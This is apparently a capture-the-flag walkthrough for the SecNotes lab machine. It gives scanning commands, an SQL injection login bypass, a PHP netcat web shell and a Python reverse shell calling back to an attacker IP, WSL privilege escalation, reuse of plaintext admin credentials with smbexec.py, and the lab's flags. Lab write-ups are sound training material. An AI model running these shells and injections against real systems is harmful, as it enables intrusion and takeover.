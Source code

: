 # SecNotes - Medium

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.97

feroxbuster -u http://10.10.10.97 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

smbclient \\\\10.10.10.97\\new-site -U tyler

dir

put shell.aspx
#we can put files in the smb server
#but they cannot be found on webpage

#for netcat and php reverse shell upload
#on attacker machine
locate nc.exe

cp /usr/share/windows-resources/binaries/nc.exe nc.exe

vim nc-shell.exe
#create simple php nc reverse shell

nc -nvlp 4444
#setup listener

smbclient \\\\10.10.10.97\\new-site -U tyler

put nc.exe

put nc-shell.exe

#visit nc-shell.php page on port 8808
#we get reverse shell
whoami
#tyler

systeminfo
#we cannot get systeminfo

#we are given the hint that this uses privesc through WSL
where /R C:\windows wsl
#finds wsl.exe

C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
#we can now execute Linux commands

whoami
#root

which python

#setup listener in attacker machine
nc -nvlp 5555

#back to wsl session
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

#we get root reverse shell on listener
whoami
#root

ls -la
#filesystem, but we do not have anything

history
#shows admin creds in plaintext

#on attacker machine
smbexec.py 'Administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
#use creds found in history
#we get shell as System
```

```php
<?php
system('nc.exe -e cmd.exe 10.10.14.3 4444')
?>
```

* Open ports & services:

  * 80 - http - Microsoft IIS httpd 10.0
  * 445 - microsoft-ds - Windows 10 Enterprise 17134 microsoft-ds
  * 8808 - http - Microsoft IIS httpd 10.0

* feroxbuster finds the following pages on port 80:

  * /contact.php
  * /home.php
  * /login.php
  * /register.php
  * /logout.php

* Now, in the /login.php page, as we do not have a registered user, we will have to create one in /register.php

* Testing for injection in /register.php, we use the payload ```'OR 1 OR'``` as username, and after feeding the same payload for login, we get access to all notes on the website - this is a clear case of SQLi.

* There is a note which includes the following information:

  ```markdown
  \\secnotes.htb\new-site
  tyler / 92g!mA8BGjOirkL%OG*&
  ```

* This can be credentials for SMB service on port 445; we can login as tyler.

* Now, the SMB share contains two files, iisstart.htm and iisstart.png, both of which indicate the files for the IIS server on page 8808.

* We can put files such as an .aspx reverse-shell, but it cannot be accessed on the webserver; we have to use a workaround.

* psexec.py does not work as well.

* We can use netcat and a php reverse shell uploaded on the server to get reverse shell.

* After getting nc.exe and the simple PHP shell, we put both those files in the SMB share, and we get a reverse shell on our listener when we visit the page on port 8808.

* Now, using the hint that privesc can be done by exploiting WSL, we need to find wsl.exe

* Using the ```where``` command, we get location ```C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe``` for wsl.exe (and bash.exe in the same directory).

* Executing wsl.exe gives us a Linux environment, as root user.

* We can use a Python reverse shell code and setup another listener for this, so that on executing the Python code we get reverse shell as root.

* Now, the directory does not contain any files of use.

* However, using ```history``` command, we get the Administrator creds in plaintext, used for logging over smbclient; the username and password is separated by '%'.

* Using smbexec.py on attacker machine, we can use these creds and get access to the machine as Administrator and get both flags.

```markdown
1. User flag - d5f868e66d4a6d1188f05bbc58a11054

2. Root flag - d63f4550fbd6d54b80c6382a42417942
```
